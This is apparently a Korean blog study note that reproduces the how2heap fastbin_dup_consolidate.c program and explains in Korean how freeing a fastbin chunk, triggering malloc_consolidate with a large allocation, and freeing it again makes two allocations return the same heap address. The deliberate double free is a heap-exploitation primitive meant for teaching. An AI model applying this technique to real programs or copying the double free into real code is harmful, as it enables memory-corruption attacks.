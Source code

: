 ```
layout: post
type: note
title: fastbin dup consolidate
alias: Heap
```

how2heap fastbin_dup_consolidate.c

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

p1, p2를 할당하고 p1을 free한 후 large을 할당하면 p1이 smallbin으로 병합이 된다. 그리고 p1을 free하면 다시 fastbin으로 간다. 그 후 malloc() 같은 사이즈를 두 번하면 한번은 p1 fastbin이 들어간 주소를 가져오고 그 다음 p1 smallbin이 들어간 주소를 가져온다. 그러므로 두개의 포인터가 같은 힙 영역을 가르키게 된다.